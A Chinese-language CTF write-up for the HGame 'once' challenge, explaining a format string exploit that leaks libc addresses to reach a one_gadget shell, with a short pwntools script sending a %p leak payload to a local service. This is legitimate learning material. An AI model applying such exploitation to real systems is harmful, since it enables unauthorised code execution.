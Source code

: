 ```yaml
---
title: HGame
categories: 
    - 比赛WriteUp
    - HGame
---
```



# week1

## once(格式化字符串)


![20210306191440](https://raw.githubusercontent.com/YTrick/image/branch/image/20210306191440.png)


IDA看，明显是格式化字符串漏洞，显然是⽤来 leak （泄露地址） 的了，泄露出 libc 的地址，就能计算出 onegadget 的地址了，最后覆盖返回地址，使得返回到 onegadget 就能拿到 shell

但是这不能⼀次就完成，要分两步，第⼀次利⽤要先 leak，覆盖返回地址，返回到漏洞开始的地⽅（这里就是程序的 vuln 函数），第⼆次就覆盖返回地址成 onegadget 即可

在第⼀步呢，有⼀个关键点，地址随机化的最低 12 bit，是不会变的，所以只要覆盖最低的 1 个字节，就可以返回到其它相近的地⽅，⽐如 vuln 函数的开头，


我用[tag]的方法找字符串的偏移老找不准：


![20210306191649](https://raw.githubusercontent.com/YTrick/image/branch/image/20210306191649.png)


如果想要找到栈中一些函数的地址来计算偏移的时候，不知道break在printf处后，栈中第一个值到底是第几个参数，所以我用了IDA去找。

test_exp:

```py
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'zsh', '-c']
context.log_level = 'debug'

p = remote('127.0.0.1',12345)

payload = 'AAAA'  + '%1$p' +'%2$p' +  '%3$p' +'%4$p' +  '%5$p'    + '%6$p'  + '%13$p'  + '%14$p'

p.sendafter('It is your turn: ',payload)
```

![20210307140046](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307140046.png)



![20210307140246](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307140246.png)


可以看到第13个参数是一个 libc_start_main 的地址，利用这个地址与题目给的 libc 文件就可以计算出 onegadget 

